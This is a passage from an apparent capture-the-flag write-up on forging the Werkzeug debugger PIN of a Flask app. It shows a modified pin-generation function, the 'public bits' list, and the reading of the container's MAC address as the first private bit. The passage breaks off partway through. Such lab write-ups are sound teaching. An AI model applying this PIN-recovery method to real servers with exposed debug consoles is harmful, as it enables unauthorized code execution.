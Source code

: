 ```python
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```

As you can see, the function was modfied, and a new private bit was added. We'll come back to it later.

The 4 public bits are classical.

```python
probably_public_bits = [
    'flaskdev',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]
```

There are 3 private bits. The two usual, and the random part.

For the first one, we can do the classical method explained on hacktricks that is to get the mac address and convert it to it's decimal value.

```plain
$ cat /sys/class/net/eth0/address
02:42:ac:11:00:02
$ python3 -c "print(int('02:42:ac:11:00:02'.replace(':',''), 16))"
2485377892354
```
